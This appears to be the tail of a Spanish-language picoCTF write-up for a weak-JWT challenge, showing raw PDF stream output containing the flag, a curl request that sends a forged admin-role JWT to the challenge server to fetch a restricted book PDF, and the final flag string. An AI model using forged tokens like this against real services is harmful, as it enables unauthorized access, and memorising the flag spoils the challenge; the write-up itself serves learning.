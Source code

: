 Respuesta, la flag viene en el contenido en bruto del archivo PDF. 
```
>>
stream
BT
/F1 20 Tf
1 0 0 1 50 752 Tm
12 TL
(Great job! Here's your flag:)'
()'
()'
(picoCTF{w34k_jwt_n0t_g00d_42f5774a})'
ET
endstream
endobj
8 0 obj
119
endobj
3 0 obj
<<
```
También podemos lanzarlo desde la consola con Curl
``` shell
 curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE3NTM1NTk3ODEsImlhdCI6MTc1Mjk1NDk4MSwidXNlcklkIjoyLCJlbWFpbCI6ImFkbWluIn0.lHEd6aR6sdKZX00iiGUhpf5-mqCHMHb0ja23nj_a_oM" http://saturn.picoctf.net:64234/base/books/pdf/5 
```

flag: **picoCTF{w34k_jwt_n0t_g00d_42f5774a}**